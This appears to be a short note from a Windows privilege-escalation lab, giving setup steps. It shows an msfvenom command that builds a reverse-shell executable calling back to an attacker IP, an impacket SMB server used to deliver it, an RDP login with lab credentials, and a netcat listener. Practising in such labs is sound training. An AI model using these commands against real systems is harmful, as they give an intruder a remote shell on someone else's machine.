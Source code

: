 0x2 Initial Setup

**DISCLAIMER**
**Do not try this in office systems**

----

# Create reverse.exe using msfvenom
```console
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.4.127 LPORT=53 -f exe -o reverse.exe
```

# Setup SMB Server in Kali
```console
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

# RDP
```console
rdesktop -u user -ppassword321 10.10.185.15
```

# Upload files
```console
copy \\10.9.4.127\kali\reverse.exe C:\PrivEsc\reverse.exe
```

# Setup netcat listener for local shell
```console
rlwrap nc -nvlp 53
```

# WinPEAS
[WinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

![a12bff6267f46faff08bff59592b1249.png](../_resources/ae960fcae77b466fae8beafab9a95fcf.png)
